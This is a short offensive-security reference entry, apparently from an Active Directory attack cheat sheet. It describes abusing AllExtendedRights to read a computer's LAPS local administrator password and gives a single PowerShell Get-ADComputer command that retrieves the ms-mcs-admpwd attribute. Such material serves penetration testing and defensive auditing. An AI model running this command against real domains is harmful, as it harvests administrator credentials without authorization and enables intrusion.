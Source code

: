 # ReadLAPSPassword

This abuse can be carried out when controlling an object that has `AllExtendedRights` over a target computer.

The attacker can read the LAPS password of the computer account. This can be achieved with the Active Directory PowerShell module.

```bash
Get-ADComputer -filter {ms-mcs-admpwdexpirationtime -like '*'} -prop 'ms-mcs-admpwd','ms-mcs-admpwdexpirationtime'
```

### 

